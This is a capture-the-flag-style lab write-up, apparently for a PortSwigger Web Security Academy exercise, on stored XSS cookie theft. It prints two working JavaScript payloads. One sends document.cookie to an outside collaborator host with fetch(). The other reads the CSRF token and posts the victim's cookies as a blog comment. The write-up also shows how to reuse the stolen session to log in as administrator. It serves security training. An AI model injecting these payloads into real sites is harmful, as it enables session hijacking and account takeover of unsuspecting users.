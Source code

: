 # 🧠 Blind XSS – Lab Write-up

**🗓️ Solution Date:** 17 / 5 / 2025  
**🔗 Lab Link:** [Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)  
**🧨 Vulnerability Type:** Blind XSS

---

## 1️⃣ Introduction

In this exercise, the goal is to exploit a **Blind XSS** vulnerability in the admin panel to steal the administrator's cookies (which contain the session ID), then use them to access their account.

---

## 2️⃣ Payload Used

```javascript
<script>
fetch('https://zfibnf4dupe0m0s3nuae4fojya41srgg.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

---

## 3️⃣ Step-by-Step Payload Analysis

|Line|Explanation|
|---|---|
|`fetch(...)`|Used to send an HTTP request to a specific server.|
|`https://...oastify.com`|This is the **attacker's server** used to collect data.|
|`method: 'POST'`|Sends data via **POST** in the request body.|
|`mode: 'no-cors'`|Allows sending the request without CORS issues, but you can't read the response through JavaScript.|
|`body: document.cookie`|Sends the **current site's cookies** (which may contain the session ID).|

---

## 4️⃣ Result

When the script is executed within the admin page, the cookies are automatically sent to the collaborator, **without the victim noticing** anything.

### 📸 Result Screenshots:

#### ✅ Receiving the request in collaborator and seeing the Session Cookie:

![Pasted image](../images/Pasted%20image%2020250517224556.png)

---

## 5️⃣ Post-Exploitation

1. Take the **session ID** visible in the collaborator.
2. ![Pasted image](../images/Pasted%20image%2020250517224959.png)

3. Reload the site and log in as the administrator.
---
# Alternative Solution

```js
<script>

window.addEventListener('DOMContentLoaded', function() {
  var token = document.getElementsByName('csrf')[0].value;
  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 8);
  data.append('comment', document.cookie);
  data.append('name', 'test name');
  data.append('email', 'test@gmail.com');
  data.append('website', 'http://test.com');

  fetch('post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data,
  });
});

</script>
```

### First, the code is written in JavaScript and runs as soon as the page loads, using `DOMContentLoaded`:

```javascript
window.addEventListener('DOMContentLoaded', function() {
```

🔸 **What does this mean?**  
It means that as soon as all the HTML is finished loading (but not necessarily the images), the code inside the function will start running.

---

### Then:

```javascript
  var token = document.getElementsByName('csrf')[0].value;
```

🔸 **What does this do?**  
It gets the value of the CSRF token (which is a type of protection against CSRF attacks), and takes it from an input in the page named `csrf`.  
For example, if you have this in the HTML:

```html
<input type="hidden" name="csrf" value="123456">
```

Then `token` = `123456`.

---

### Then it prepares the data to send to the server:

```javascript
  var data = new FormData();
```

🔸 **What does this mean?**  
It creates an object of type `FormData`, which we use to easily send form data.

---

### Then it adds the data to send:

```javascript
  data.append('csrf', token);
  data.append('postId', 8);
  data.append('comment', document.cookie);
  data.append('name', 'test name');
  data.append('email', 'test@gmail.com');
  data.append('website', 'http://test.com');
```

🔸 **What happens here:**

- `csrf` = The value we got from above.
    
- `postId` = The post number to add the comment to (e.g., post number 8).
    
- `comment` = Here it sends all your **cookies**! (This is strange and dangerous, we'll discuss it later).
    
- `name`, `email`, `website` = Default data.
    

---

### Finally, it sends this data to the server:

```javascript
  fetch('post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data,
  });
```

🔸 **What does this do?**

- Uses `fetch` to send this data to the `post/comment` URL via `POST`.
    
- `mode: 'no-cors'` means the browser won't block the request if the server doesn't allow this domain (but in return, you can't see the server's response).
    

---

## ⚠️ Very Important Warning:

This line in particular:

```javascript
data.append('comment', document.cookie);
```

is very dangerous because it takes the user's cookies and sends them to the server.  
This could be an attempt at **session theft** or **session hijacking** if this code is injected into someone else's site.

So if code like this is placed on a suspicious page or injected into a known site, whoever runs it could steal your session.

---

## 👀 Summary:

This code:

- Waits for the page to finish loading.
    
- Gets the CSRF token from the page.
    
- Prepares data containing information and cookies.
    
- And sends it to a specific server.
- ![Pasted image](../images/Pasted%20image%2020250517224556.png)